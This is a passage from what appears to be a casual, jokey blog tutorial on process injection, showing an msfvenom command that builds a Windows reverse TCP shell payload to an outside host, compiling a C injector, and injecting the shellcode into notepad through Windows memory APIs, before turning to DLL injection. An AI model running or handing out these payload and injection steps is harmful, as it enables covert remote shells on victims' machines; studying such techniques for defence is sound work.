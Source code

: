 **You should also probably change teh payload, cuz ya know random shellcod3z from teh internetz, 1.1.1.1 is a dns server...**

```  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f c -b "\\x00"
```  

![](/assets/images/assets/images/go-remote-dll-process-injection/example-1-shellcode.png)  

Compile again...  

```  
gcc example-1.c -o example-1.exe
```  

**Now, we need to open notepad, get its process id, make sure nothing is already running on port 4444, and run teh c0de.**  

![](/assets/images/go-remote-dll-process-injection/example-1-netstat.png)  

## As you can see, our l33t haxor script injected shellcode into the target process using `OpenProcess`, `VirtualAllocEx` , `WriteProcessMemory` , `CreateRemoteThread`, and `CloseHandle`. Notepad is sending SYN packets for a 3 way handshake. The POC script worked...  

## Ok, cool. We know that we can make notepad run a reverse tcp shell payload by injecting shellcode. But this post is on injecting DLLs  

**This second example is going to teach us how to inject a DLL into a process's memory using C++**  

## Grab the code from teh cocomelonc...  
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html  

**c prus plus, wtf's t1m, I thought we wuz gonna learn teh G0L4ngz...**  

## The first piece of kit that we need is a proper DLL. Its soooo cute! uWu  
